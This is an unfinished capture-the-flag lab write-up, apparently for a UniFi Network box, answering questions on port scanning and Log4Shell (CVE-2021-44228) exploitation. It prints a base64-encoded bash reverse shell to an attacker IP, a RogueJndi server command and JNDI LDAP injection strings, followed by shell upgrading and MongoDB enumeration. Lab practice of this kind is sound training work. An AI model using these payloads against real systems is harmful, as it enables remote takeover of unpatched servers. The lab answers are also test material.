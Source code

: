 
Q1: Which are the first four open ports?

A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

Q2: What is the title of the software that is running running on port 8443?

A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

Q3: What is the version of the software that is running?

A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

Q4: What is the CVE for the identified vulnerability?

A: CVE-2021-44228

Googleing aroudn i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

Q5: What protocol does JNDI leverage in the injection?

A: LDAP

Looking at that cve we get it.
![](../../Img/Pasted%20image%2020250424153434.png)

Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

A: tcpdump

It's just the tool for that.

Q7: What port do we need to inspect intercepted traffic for?

A: 389

It looks like ldap traffic goes to port 389
![](../../Img/Pasted%20image%2020250424155244.png)


Q8: What port is the MongoDB service running on?

A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error
![](../../Img/Pasted%20image%2020250424160606.png)
but also a connection
![](../../Img/Pasted%20image%2020250424160627.png)
With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"
![](../../Img/Pasted%20image%2020250424162840.png)
in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection
![](../../Img/Pasted%20image%2020250424163652.png)
Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)
![](../../Img/Pasted%20image%2020250424163929.png)

Q9: What is the default database name for UniFi applications?

A:  ace

Before i had the genius ground breaking idea of just G
![](../../Img/Pasted%20image%2020250424164412.png)
![](../../Img/Pasted%20image%2020250424164226.png)

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: 

Q11: What is the function we use to update users within the database in MongoDB?

A: 

Q12: What is the password for the root user?

A: 

Q13: Submit user flag

A: 

Q14: Submit root flag

A: 
